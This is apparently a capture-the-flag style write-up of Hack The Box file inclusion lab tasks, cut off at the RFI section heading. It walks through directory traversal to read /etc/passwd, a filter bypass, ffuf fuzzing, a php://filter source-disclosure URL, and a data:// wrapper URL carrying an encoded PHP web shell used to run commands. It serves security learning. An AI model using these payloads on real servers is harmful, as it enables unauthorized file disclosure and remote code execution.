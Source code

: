 <h1><ins>Local File Inclusion (LFI)</ins></h1>
<h2>Task: Using the file inclusion find the name of a user on the system that starts with "b".</h2>
To exploit LFI, we use directory traversal techniques to access sensitive files. By injecting ../ into the file path, we can navigate out of the intended directory and access system files, such as /etc/passwd. The /etc/passwd file is a standard Linux file that contains information about system users. Each line in the file corresponds to a user, and their usernames are the first field on each line.<br></br>

![Screenshot 2024-11-15 211516](https://github.com/user-attachments/assets/d8bed4c5-9929-4d5b-bb24-0974766b87bd)

<br></br>Since Text output is to long we can view page source to see full text which gives us user on the system that starts with "b".<br></br>

![Screenshot 2024-11-15 211552](https://github.com/user-attachments/assets/a3ac51a4-57a0-4a98-8266-73a97d51e4b7)

<h2>Task: Submit the contents of the flag.txt file located in the /usr/share/flags directory.</h2>

Using same method and changing directory with file name get our flag.

![Screenshot 2024-11-15 211948](https://github.com/user-attachments/assets/36fd1584-3202-41c5-99b3-fa6c83676c7d)

<br></br>

<h1><ins>Basic Bypasses</ins></h1>
<h2>Task: The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt</h2> 
Using previous method of ../ we are presented with "Illegal path specified!", to bypass filters we combine ....// method and approved path by application.

![Screenshot 2024-11-15 221940](https://github.com/user-attachments/assets/4122b301-73aa-4bac-b6b0-72bb8ffe77a2)

<br></br>

<h1><ins>PHP Filters(LFI)</ins></h1>
<h2>Task: Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer</h2>
Using ffuf we can find php files that web application uses in some cases we might need to have a larger directory file, but for this module small directory file is enough. <code>ffuf -w Desktop/directory-list-2.3-small.txt:FUZZ -u http://94.237.59.180:42908/FUZZ.php</code> , after running command we can see that it found two .php files index and configure.

Once we have a list of potential PHP files we want to read, we can start disclosing their sources with the base64 PHP filter. We can try to read source code of config.php using the base64 filter, by specifying convert.base64-encode for the read parameter and config for the resource parameter, using this code <code>php://filter/read=convert.base64-encode/resource=</code> our final URL looks like this: <code>http://94.237.59.180:42908/index.php?language=php://filter/read=convert.base64-encode/resource=configure</code>
To copy full encoded text we can use View Page Source

![Screenshot 2024-11-16 185901](https://github.com/user-attachments/assets/e03e9000-db00-4771-bfaa-f8f683c3e621)

Using <code> echo "encoded text" | base64 -d</code> we can decode text and find flag.

![Screenshot 2024-11-16 190353](https://github.com/user-attachments/assets/f15de0a4-40f5-49fe-9631-0d25be69e09e)

<h1><ins>PHP Wrappers</ins></h1>
<h2>Task: Try to gain RCE using one of the PHP wrappers and read the flag at /</h2>

After going throught HTB Writeup we can see that <code>http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id</code> show UID's we can use last part <code>cmd=id</code> to pass commands which in this case we can change to <code>cmd=ls /</code> to find our flag file which is <code>37809e2f8952f06139011994726d9ef1.txt</code> knowing this we can change our last part of the code to get flag <code>cmd=cat /37809e2f8952f06139011994726d9ef1.txt</code>


![1](https://github.com/user-attachments/assets/6e1c7ccf-33f8-4393-99c6-6d40eca727f5)

<h1><ins>Remote File Inclusion (RFI)</ins></h1>
<h2>Task: Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in/</h2>
